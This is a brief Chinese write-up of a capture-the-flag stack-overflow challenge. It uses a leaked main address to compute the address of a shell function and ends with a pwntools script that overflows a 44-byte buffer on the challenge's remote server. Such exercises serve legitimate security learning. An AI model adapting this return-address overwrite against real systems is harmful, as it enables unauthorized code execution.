




1. 用ida打开，看到一个shell函数，打开看  
  
想必是栈溢出  

2. 看反汇编代码  
  


可以看出这是32位，从地址位数和寄存器都可以看出shell地址是0x80f，main函数地址是0x770，main函数中输出了main函数的地址，那么接受main函数的地址后可以根据偏移量计算shell地址  

3. 在vuln函数中可以实现栈溢出  
  

首先push %ebp，4字节，然后sub 0x28 %esp，这是给数组申请空间，一共有44字节  

4. payload  

```py
from pwn import*

re=remote("node5.anna.nssctf.cn","26509")
re.recvuntil('gift!\n')
main_add=int(re.recv(10),16)
paload=b'b'*(44)+p32(main_add+0x9f)  
re.sendline(paload)  
re.interactive()

```
